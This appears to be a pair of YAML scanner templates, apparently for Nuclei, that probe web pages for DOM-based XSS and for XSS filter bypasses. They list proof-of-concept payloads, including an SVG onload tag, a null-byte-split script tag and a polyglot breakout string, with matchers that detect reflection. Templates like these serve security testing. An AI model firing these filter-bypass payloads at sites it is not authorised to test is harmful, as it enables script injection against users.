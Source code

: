 
# Template 3: DOM-Based XSS
id: dom-xss
info:
  name: DOM-Based XSS Detection
  author: custom-hunter
  severity: medium
  tags: xss, dom
http:
  - method: GET
    path:
      - "{{BaseURL}}#{{xss}}"
      - "{{BaseURL}}?hash={{xss}}"
    payloads:
      xss:
        - "javascript:alert(1)"
        - "<svg/onload=alert(1)>"
    matchers:
      - type: regex
        part: body
        regex:
          - "document\.write\(.*javascript:alert\(1\)"
          - "eval\(.*<svg/onload=alert\(1\)\)"
        condition: or
      - type: status
        status:
          - 200

# Template 4: XSS Filter Bypass
id: xss-filter-bypass
info:
  name: XSS Filter Bypass with Obfuscation
  author: custom-hunter
  severity: high
  tags: xss, bypass
http:
  - method: GET
    path:
      - "{{BaseURL}}?q={{xss}}"
      - "{{BaseURL}}?search={{xss}}"
    payloads:
      xss:
        - "<scr%00ipt>alert(1)</scr%00ipt>"
        - "onmouseover=\"alert(1)\""
        - "javascript:/*--></title></style></textarea></script></xmp><svg/onload='alert(1)'"
    matchers:
      - type: word
        part: body
        words:
          - "<scr%00ipt>alert(1)</scr%00ipt>"
          - "onmouseover=\"alert(1)\""
          - "<svg/onload='alert(1)'"
        condition: or
      - type: status
        status:
          - 200
